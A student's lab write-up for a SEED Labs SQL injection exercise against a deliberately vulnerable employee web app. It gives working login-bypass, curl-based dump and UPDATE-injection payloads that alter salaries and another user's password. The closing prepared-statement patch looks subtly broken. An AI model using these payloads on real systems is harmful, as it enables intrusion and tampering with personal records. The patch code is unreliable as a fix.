




<p align="center">
    Lab 04 - SQL Injection <br/>
    By Patrick O'Connor <br/>
    v75j556 <br/>
    CSCI 476 - Spring 2021 <br/>

</p>

# Table of Contents
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)
- [Contact](#contact)
	- <a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>

<a name="desc"></a>
# About this project
SQL injection is a code injection technique that exploits vulnerabilities in the interface between web applications (web apps) and databases. The vulnerability is present when user inputs are not properly handled within the web app before being sent to a back-end database.

Many web apps take inputs from users, and then use these inputs to construct SQL queries, which retrieve information from a database. Web apps also use SQL queries to store information in the database. These are common practices in the development of web apps. When SQL queries are not carefully constructed, SQL injection vulnerabilities can occur. SQL injection is one of the most common attacks on web apps.

In this lab, we have created a web app that is vulnerable to SQL injection attacks. Our web app includes examples of common mistakes made by many web developers. Your goal is to find ways to exploit these SQL injection vulnerabilities, demonstrate the damage that can be done by these attacks, and master the techniques that can help defend against these types of attacks.

Started: March 7, 2021
\
Last Updated: March 09, 2021
\
Due Date: March 09, 2021

<a name="struct"></a>
# File Structure
- lab03
	- README.md

<a name="tasks"></a>
#   Task 1: Get Familiar with SQL Statements
The objective of this task is to get familiar with SQL commands by experimenting within the provided database. The data used by our web app is stored in a MySQL database, which is hosted on our MySQL container. We have created a database called ```sqllab_users```, which contains a table called ```credential```. The table stores the personal information (e.g., eid, password, salary, ssn, etc.) of every employee. In this task, you will interact with this database from the ```mysql``` command line interface (CLI) to get familiar with SQL queries.

After you log in, you can create a new database or use an existing one. You can see which databases currently exist using the show databases command. We have already created the sqllab_users database for you, so for this task you just need to load this existing database using the use command. To show what tables exist within the sqllab_users database, you can use the show tables command to print out all the tables of the currently selected database.

After running the commands above, you need to use a SQL command to print all the information for the employee Alice.

Please provide proof of your results (e.g., command line output, screenshot).
\
Using ```mysql --user=root --password=dees``` I was able to get into the MySQL
database and access the current databases and access all of Alice's information that can
be seen in the following image. This was completed with ```use sqllab_users;``` which changed the active database. I then saw a table that was labeled credential. With this information
we can create the ```sql``` command ```Select * FROM credential WHERE Name='Alice';```.
\


#   Task 2: A SQL Injection Attack on a SELECT Statement
To explore SQL injection vulnerabilities in this task, we will use the login page found at http://www.seedlabsqlinjection.com/. The login page is shown in the figure below. As is typical in authentication, the web app prompts users to provide a username and a password. The web app then authenticates users based on these two pieces of information. Presumably, only employees who know their own username and password should be able to log in. Your objective throughout this task is to exploit a SQL injection vulnerability in the- [ login page to successfully log into the web app without knowing any valid employee credentials.

##  Task 2.1: SQL Injection Attack from the Login Webpage
In this task you need to log into the web app as the administrator from the login page, which will enable you to see the information of all employees. We assume that you do know the administrator’s account name, which is admin, but you do not know the password. You need to decide what payload to enter into the “Username” and/or “Password” fields to succeed in your attack.
\
Using the fact that we know ```admin``` is an actual user of the seedlabs website. We
can utilize the username section to get into admins account and access confidential
information. The input of the username box would be ```admin';#``` and with this
we are in as you can see in the screenshot below.



##  Task 2.2: SQL Injection Attack from the Command Line
In this task you need to repeat Task 2.1, but you need to do it without using the login webpage. You can use command line tools, such as ```curl```, which can be used to send HTTP requests. Using ```curl``` is probably the quickest and easiest way to go, but there are also other great libraries that are fun to learn; e.g., ```requests``` in Python, httpparty in Ruby.
Using the base ```curl``` command ```curl 'www.seedlabsqlinjection.com/unsafe_home.php?username=alice&password=mypass123'``` we can alter the username and password section to comlete the same task as Task 2.1. The ```curl``` command to get this to work is``` curl 'www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%20%20%23&Password=' | tidy -i ```

The credential information that is printed out using ```| tidy -i``` is below and followed by the logoff script as proof this was not created with Task2.1 information. <div class='container'>
    <br>
    <h1 class='text-center'><b>User Details</b></h1>
    <hr>
    <br>
    <table class='table table-striped table-bordered'>
      <thead class='thead-dark'>
        <tr>
          <th scope='col'>Username</th>
          <th scope='col'>EId</th>
          <th scope='col'>Salary</th>
          <th scope='col'>Birthday</th>
          <th scope='col'>SSN</th>
          <th scope='col'>Nickname</th>
          <th scope='col'>Email</th>
          <th scope='col'>Address</th>
          <th scope='col'>Ph. Number</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <th scope='row'>Alice</th>
          <td>10000</td>
          <td>20000</td>
          <td>9/20</td>
          <td>10211002</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>
          <th scope='row'>Boby</th>
          <td>20000</td>
          <td>30000</td>
          <td>4/20</td>
          <td>10213352</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>
          <th scope='row'>Ryan</th>
          <td>30000</td>
          <td>50000</td>
          <td>4/10</td>
          <td>98993524</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>
          <th scope='row'>Samy</th>
          <td>40000</td>
          <td>90000</td>
          <td>1/11</td>
          <td>32193525</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>
          <th scope='row'>Ted</th>
          <td>50000</td>
          <td>110000</td>
          <td>11/3</td>
          <td>32111111</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
        <tr>
          <th scope='row'>Admin</th>
          <td>99999</td>
          <td>400000</td>
          <td>3/5</td>
          <td>43254314</td>
          <td></td>
          <td></td>
          <td></td>
          <td></td>
        </tr>
      </tbody>
    </table><br>
    <br>
    <div class="text-center">
      <p>Copyright © SEED LABs</p>
    </div>
  </div>
  ```<script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
  </script>
</body>
</html>
```

##  Task 2.3: (Try to…) Append a New SQL Statement
In the above two attacks, we only view arbitrary information from the database; it could be interesting to explore whether it is possible modify the database using the same vulnerability in the login page. One idea is to use the SQL injection attack to turn one SQL statement into two, with the second one being an update or delete statement. In SQL, a semicolon (;) is used to separate two SQL statements. With this idea in mind, now try to craft your input so that you can run two SQL statements via the login page.

(Spoiler alert!) It turns out that there is a countermeasure to prevent this specific issue known as a prepared statement. Feel free to do some independent research on this topic and describe your discovery in the lab report.

As noted in at the end of the task this is not possible to complete. The web-server we are provide notifies us that there is a syntax error when we input a second ```sql``` statement in the login box.

#   Task 3: SQL Injection Attack on UPDATE Statement
If a SQL injection vulnerability happens to an UPDATE statement, the damage could be quite severe, because attackers can use such SQL injection vulnerabilities to modify databases. In our employee management web app, there is an “edit profile” page (see figure below) that allows employees to update their profile information, including nickname, email, address, phone number, and password. To access this page, employees need to log in first.

When employees update their information through the edit profile page, the following SQL UPDATE query will be executed. The PHP code implemented in ```/var/www/SQLInjection/unsafe_edit_backend.php``` file is used to update employee’s profile information.

```SQL
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
    nickname='$input_nickname',
    email='$input_email',
    address='$input_address',
    password='$hashed_pwd',
    PhoneNumber='$input_phonenumber'
    WHERE ID=$id;";
$conn->query($sql);
```
UPDATE credential SET salary='1000000' WHERE Username='Alice'';#

username=admin%27%29+--+&password=+ UPDATE credential SET salary='1000000' WHERE Username='Alice'';#

##  Task 3.1: Modify Your Salary
As you can see in the edit profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries.

Assume that you (Alice) are a disgruntled employee, and your boss did not increase your salary this year. You want to increase your own salary by exploiting the SQL injection vulnerability in the “edit profile” page. Please demonstrate how you can achieve this kind of update. We assume that you do know Alice’s credentials and that salary information is stored in a column named ```salary```.
\
Knowing the login credentials of Alice we can go into the ```unsafe_edit_frontend.php``` and insert ``` ',salary='1000000' WHERE Eid='10000';# ``` into the NickName field. This will process as a php command on the backend and therefore update Alice's salary to $1000000. This change from the original value can be seen below.  


##  Task 3.2: Modify the Salary of Others
After increasing your own salary, you decide to punish your boss Samy. You want to reduce their salary to 1 dollar. (Ouch!)

Please demonstrate how you can achieve this update.
Being Alice, I know a bit about how our server is set-up and ```php```. With this I can complete a similar attack as we completed in task 2 while add a ```WHILE 1=1``` in order to get the curl request to return all of the confidential information to me at CLI. There I would find out that the administrator is named admin. With this I can exploit the log in box with ```admin';# ``` and find out Samy's Eid. Now having Samy's Eid, I will use same attack as task 3.1 with minor changes that can be seen here ```',salary='1' WHERE Eid='40000';# ```. Another route that could be taken is quite similar in that we could simply use Samy's Name instead of her Eid. To do the sql injection this way we would simply change the above payload to  ```',salary='1' WHERE Name='Samy';# ```

This is pretty interesting as most places that I have worked and even at MSU ID numbers have not been the most confidential information. I found this to be a bit disturbing and will be more conscious on where I spread my ID information going forward. Working at UIT, I have heard some pretty bad things about MSU's network security so I wonder what has been leaked from the school in the past. Along with this being in ESOF-322 we are going over variables right now and the naming conventions. This makes me question some of the points such as naming things based on simple and easy to understand names as they could be easily guessed.


##  Task 3.3: Modify the Password of Others
After changing Samy’s salary, you are still disgruntled, so you want to change Samy’s password to something that you know, and then you can log into their account and do further damage. Please demonstrate how you can achieve this.

You need to demonstrate that you can successfully log into Samy’s account using the new password. One thing worth mentioning here is that the database stores the SHA1 hash value of passwords instead of the plaintext password string. You can look at the ```unsafe_edit_backend.php``` code to see exactly how the password is being stored.
\
Using a similar approach as the first two injections of task 3 we can change the password to Samy's account through Alice's edit profile page. Being a disgruntled employee I used the command ```', Password='f5fe2227dd4617bb91a2a2fc74d9922481b75b11' WHERE Name='Samy';#``` to change Samy's password to ```i-win```. After completing this I logged out of Alice's account and attempted to login to Samy's account that I previously did not know the password to. Using ```i-win``` I was successfully able to access Samy's Profile and can do what I would like with his confidential information now.  


#   Task 4: SQLi Countermeasure: Prepared Statements
The fundamental problem of the SQL injection vulnerability is the failure to clearly separate code from data. When constructing a SQL statement, the program (e.g., PHP program) knows which part is data and which part is code. Unfortunately, when the SQL statement is sent to the database, the distinction is lost; the boundaries that the SQL interpreter sees may be different from the original boundaries that were intended by the<span style="color: green"> developers. To solve this problem, it is important to ensure that the view of the boundaries between code and data are consistent in the server-side code and in the database.

The folks at PortSwigger (the makers of Burp Suite) do a nice job of summarizing why parameterized queries are an effective countermeasure:
The most effective way to prevent SQL injection attacks is to use parameterized queries (also known as prepared statements) for all database access. This method uses two steps to incorporate potentially tainted data into SQL queries: first, the application specifies the structure of the query, leaving placeholders for each item of user input; second, the application specifies the contents of each placeholder. Because the structure of the query has already been defined in the first step, it is not possible for malformed data in the second step to interfere with the query structure. You should review the documentation for your database and application platform to determine the appropriate APIs which you can use to perform parameterized queries. It is strongly recommended that you parameterize every variable data item that is incorporated into database queries, even if it is not obviously tainted, to prevent oversights occurring and avoid vulnerabilities being introduced by changes elsewhere within the code base of the application.

##  Task 4.1: Patching Code to Use Prepared Statements
In this task, we will use the prepared statement mechanism to fix SQL injection vulnerabilities. For the sake of simplicity, we created a simplified program to serve as a starter for you: ```04_sqli/image_www/code/defense/unsafe.php.``` You will need to make changes to the file(s) in this folder. If you point your browser to the following URL — http://www.seedlabsqlinjection.com/defense/ — you will see a page similar to the original login page for the web app. This page allows you to query an employee’s information, but you need to provide the correct user name and password.

The data submitted via this page will be sent to the server program ```getinfo.php```, which invokes a program called ```unsafe.php```. The SQL query inside this PHP program is vulnerable to SQL injection attacks. Your objective is to modify the SQL query in ```unsafe.php``` to use a prepared statement, enabling the web app to thwart SQL injection attacks.


Using the code below I was able to thwart the SQL injection attacks previously used in this lab. This binds each of inputs and separates the sql query from the data inputted. I dont believe that this cant be worked around but to the best of my knowledge at this basic level we have solved the initial vulnerability.
```
// prepare the query
$conn = getDB();
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= ? and password= ?");


//$result = $conn->query("SELECT id, name, eid, salary, ssn
//                        FROM credential
//                        WHERE name= '$input_uname' and password= '$hashed_pwd'");
$stmt->bind_param("ss", $name, $password);
$stmt->execute();
$stmt->bind_result($bind_id, $bind_name, $bind_eid, $bind_salary,
  $bind_birth, $bind_ssn, $bind_phoneNumber, $bind_address, $bind_email,
  $bind_nickname, $bind_password);
$stmt->fetch();

if($bind_id != ""){
  drawLayout($bind_id, $bind_name, $bind_eid, $bind_salary, $bind_birth,
    $bind_ssn, $bind_phoneNumber, $bind_address, $bind_email,
    $bind_nickname, $bind_password);
}
else{
  echo "The account information is incorrect or does not exist \n ";
  return;
}
```

# Quick-Nav
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)

\
<a name="contact"></a>
<a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>
